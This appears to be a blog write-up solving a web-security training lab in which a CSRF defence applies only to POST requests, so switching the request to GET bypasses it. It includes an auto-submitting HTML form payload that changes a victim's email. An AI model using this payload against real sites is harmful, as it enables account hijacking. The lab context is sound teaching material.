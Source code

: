 ```yaml
---
layout: post
title:  "CSRF where token validation depends on request method"
date:   2024-10-01 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login with the credentials provided `wiener:peter` and we have a functionality to update the email 

![]({{ site.baseurl }}/assets/images/csrf-1.png) 

Intercepted the request of update email in burp, As a result we can see that there is a `302` redirect 

![]({{ site.baseurl }}/assets/images/csrf-2.png) 

Now, I removed the values of `csrf` parameter in the `POST` body and sent the request.. As you see where we faced an error here called `"Missing parameter 'csrf'"` 

![]({{ site.baseurl }}/assets/images/csrf-3.png) 

Changed the request method from `POST` to `GET` bypassed and we can able to update the email without any CSRF token out there 

![]({{ site.baseurl }}/assets/images/csrf-4.png)

Awesome, we will generate CSRF POC using engagement tools from burpsuite and here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3b0057035328af808c7bd000e50052.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In the exploit server, we will paste the above HTML code as a body and click on `store` and then `deliver exploit to victim` will solve the lab 

![]({{ site.baseurl }}/assets/images/csrf-5.png)